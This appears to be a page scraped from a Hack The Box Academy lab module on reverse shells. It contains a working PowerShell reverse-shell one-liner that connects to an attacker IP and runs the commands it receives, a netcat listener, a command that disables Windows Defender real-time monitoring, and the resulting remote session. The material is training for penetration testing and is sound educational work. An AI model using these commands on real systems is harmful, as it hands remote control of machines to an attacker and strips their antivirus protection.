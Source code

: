 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/115/section/1106
// Platform Version: V1
// Module ID: 115
// Module Name: Shells & Payloads
// Module Difficulty: Medium
// Section ID: 1106
// Section Title: Reverse Shells
// Page Title: Hack The Box - Academy
// Page Number: 05
-->

# Reverse Shells

**Module Name:** Shells & Payloads **Page Number:** 05

#### 

#### SHELLS & PAYLOADS

# Reverse Shells

#### Reverse Shell Example

![https://academy.hackthebox.com/storage/modules/115/reverseshell.png](https://academy.hackthebox.com/storage/modules/115/reverseshell.png)

## Hands-on With A Simple Reverse Shell in Windows

#### Server (attack box)

``` shell-session
[!bash!]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

#### Client (target)

``` cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Client (target)

``` cmd-session
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

#### Disable AV

``` powershell-session
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

#### Server (attack box)

``` shell-session
[!bash!]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

# 

# 

#### Questions

####